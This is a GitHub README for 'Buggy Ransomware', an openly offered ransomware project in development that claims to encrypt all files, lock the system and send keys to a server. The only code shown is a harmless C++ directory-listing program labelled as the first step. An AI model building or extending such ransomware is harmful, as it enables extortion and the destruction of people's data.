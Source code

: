 #### DISCLAIMER : OUR TOOLS ARE FOR EDUCATIONAL PURPOSES ONLY. DON'T USE THEM FOR ILLEGAL ACTIVITIES. YOU ARE THE ONLY RESPONSABLE FOR YOUR ACTIONS! OUR TOOLS ARE OPEN SOURCE WITH NO WARRANTY AND AS ARE.

<img src="logor.png" alt="logo">

# Buggy Ransomware

Buggy Ransomware is open source  Crypto-Locker. Buggy Ransomware is developed in Visual C++. It has features encrypt all file, lock down the system and send keys back to the server. Multi-threaded functionality helps to this tool make encryption faster.


## Step 1 (Fetch files & encrypt them)

Getting all files from all drive to encrypting them.

Here is basic program get all list directory & folder.

```
#include <iostream>
#include <stdio.h>
#include <string>
#include <dirent.h>
#include <fstream>

using namespace std;

fstream data_file("data.txt", ios::out);

int main(void)
{

	struct dirent *de;  // Pointer for directory entr
						// opendir() returns a pointer of DIR type. 
	DIR *dr = opendir("d:\\");

	if (dr == NULL)  // opendir returns NULL if couldn't open directory
	{
		printf("Could not open current directory");
		return 0;
	}

	// for readdir()
	while ((de = readdir(dr)) != NULL) {
		//	printf("%s\n", de->d_name);
		data_file << de->d_name << "\n";
	}
	data_file.close();
	closedir(dr);

	data_file.open("data.txt", ios::in);
	string line;
	while (data_file.good()) {
		getline(data_file, line);
		cout << line << endl;
	}

	system("pause");
	return 0;
}
```

# Currently in Development....Happy Hacking:)
